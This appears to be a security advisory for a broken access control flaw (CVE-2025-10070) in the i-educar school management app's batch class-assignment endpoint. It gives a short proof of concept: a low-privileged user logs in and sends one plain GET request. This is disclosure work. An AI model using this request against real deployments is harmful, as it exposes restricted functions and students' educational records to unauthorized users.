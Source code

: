 # Broken Access Control  in `/enturmacao-em-lote/[ID]` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/enturmacao-em-lote/[ID]` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /enturmacao-em-lote/[ID]`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.

<img width="1843" height="533" alt="Pasted image 20250821190942" src="https://github.com/user-attachments/assets/7f417943-7e71-4cd7-907f-1284233af2b5" />
<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/646ca886-c2cd-4a3a-b21d-0f595fa403ed" />

    
2. Send the following request::

```
GET /enturmacao-em-lote/15 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function to batch assign students to classes. And, this user, should not do that.

<img width="1556" height="667" alt="Pasted image 20250821194402" src="https://github.com/user-attachments/assets/e883732d-0495-4a57-b197-aa598d11fbc2" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

[CVE-2025-10070](https://www.cve.org/CVERecord?id=CVE-2025-10070)

[VulnDB-323018](https://vuldb.com/?id.323018)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)